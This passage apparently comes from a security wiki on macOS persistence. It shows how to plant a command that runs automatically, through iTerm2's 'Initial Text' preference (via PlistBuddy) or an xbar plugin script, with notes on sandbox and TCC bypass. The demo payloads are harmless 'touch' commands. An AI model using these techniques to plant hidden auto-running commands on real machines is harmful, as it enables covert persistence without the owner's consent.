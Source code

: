 And the command is reflected in the preferences:

```bash
plutil -p com.googlecode.iterm2.plist
{
  [...]
  "New Bookmarks" => [
    0 => {
      [...]
      "Initial Text" => "touch /tmp/iterm-start-command"
```

You can set the command to execute with:

{% code overflow="wrap" %}
```bash
# Add
/usr/libexec/PlistBuddy -c "Set :\"New Bookmarks\":0:\"Initial Text\" 'touch /tmp/iterm-start-command'" $HOME/Library/Preferences/com.googlecode.iterm2.plist

# Call iTerm
open /Applications/iTerm.app/Contents/MacOS/iTerm2

# Remove
/usr/libexec/PlistBuddy -c "Set :\"New Bookmarks\":0:\"Initial Text\" ''" $HOME/Library/Preferences/com.googlecode.iterm2.plist
```
{% endcode %}

{% hint style="warning" %}
Highly probable there are **other ways to abuse the iTerm2 preferences** to execute arbitrary commands.
{% endhint %}

### xbar

Writeup: [https://theevilbit.github.io/beyond/beyond\_0007/](https://theevilbit.github.io/beyond/beyond\_0007/)

* Useful to bypass sandbox: [✅](https://emojipedia.org/check-mark-button)
  * But xbar must be installed
* TCC bypass: [✅](https://emojipedia.org/check-mark-button)
  * It requests Accessibility permissions

#### Location

* **`~/Library/Application\ Support/xbar/plugins/`**
  * **Trigger**: Once xbar is executed

#### Description

If the popular program [**xbar**](https://github.com/matryer/xbar) is installed, it's possible to write a shell script in **`~/Library/Application\ Support/xbar/plugins/`** which will be executed when xbar is started:

```bash
cat > "$HOME/Library/Application Support/xbar/plugins/a.sh" << EOF
#!/bin/bash
touch /tmp/xbar
EOF
chmod +x "$HOME/Library/Application Support/xbar/plugins/a.sh"
```
